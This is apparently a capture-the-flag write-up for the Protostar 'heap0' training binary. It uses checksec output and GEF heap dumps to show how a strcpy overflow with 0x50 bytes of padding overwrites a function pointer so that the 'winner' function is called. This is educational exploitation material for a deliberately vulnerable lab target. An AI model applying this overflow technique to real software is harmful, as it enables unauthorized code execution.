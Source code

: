# Protostar - Heap0
Pretty straight forward heap overflow. We have to call the function **winner**.

## Binary
### Code
Decompiled with Binary Ninja HLIL.

![](img/main_hlil.png)

### Security 
Only NX enabled.

```shell
$ checksec ./heap0
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Solution
Overwrite pointer to **nowinner** with pointer to **winner** function.

#### First heap chunk
```shell
gef➤  heap chunk 0x0804b1a0
Chunk(addr=0x804b1a0, size=0x50, flags=PREV_INUSE)
Chunk size: 80 (0x50)
Usable size: 76 (0x4c)
Previous chunk size: 0 (0x0)
PREV_INUSE flag: On
IS_MMAPPED flag: Off
NON_MAIN_ARENA flag: Off
```

#### Second heap chunk
```shell
gef➤  heap chunk 0x0804b1f0
Chunk(addr=0x804b1f0, size=0x10, flags=PREV_INUSE)
Chunk size: 16 (0x10)
Usable size: 12 (0xc)
Previous chunk size: 0 (0x0)
PREV_INUSE flag: On
IS_MMAPPED flag: Off
NON_MAIN_ARENA flag: Off
```

As we can see from the size of the first heap chunk we need 0x50 bytes of padding before overwritting the function pointer.

#### Second heap chunk before overflow
```shell
gef➤  dereference 0x0804b1f0-8
0x0804b1e8│+0x0000: 0x00000000
0x0804b1ec│+0x0004: 0x00000011
0x0804b1f0│+0x0008: 0x080484e1  →  <nowinner+0> push ebp	 ← $eax
0x0804b1f4│+0x000c: 0x00000000
0x0804b1f8│+0x0010: 0x00000000
0x0804b1fc│+0x0014: 0x00021e09
0x0804b200│+0x0018: 0x00000000
0x0804b204│+0x001c: 0x00000000
0x0804b208│+0x0020: 0x00000000
0x0804b20c│+0x0024: 0x00000000
```

#### Second heap chunk after overflow
After **strcpy** with an argument of length 0x54.
```shell
gef➤  dereference 0x0804b1f0-8
0x0804b1e8│+0x0000: "AAAAAAAAAAAA"
0x0804b1ec│+0x0004: "AAAAAAAA"
0x0804b1f0│+0x0008: "AAAA"
0x0804b1f4│+0x000c: 0x00000000	 ← $edx
0x0804b1f8│+0x0010: 0x00000000
0x0804b1fc│+0x0014: 0x00000411
0x0804b200│+0x0018: "data is at 0x804b1a0, fp is at 0x804b1f0\n"
0x0804b204│+0x001c: "is at 0x804b1a0, fp is at 0x804b1f0\n"
0x0804b208│+0x0020: "at 0x804b1a0, fp is at 0x804b1f0\n"
0x0804b20c│+0x0024: "x804b1a0, fp is at 0x804b1f0\n"
```
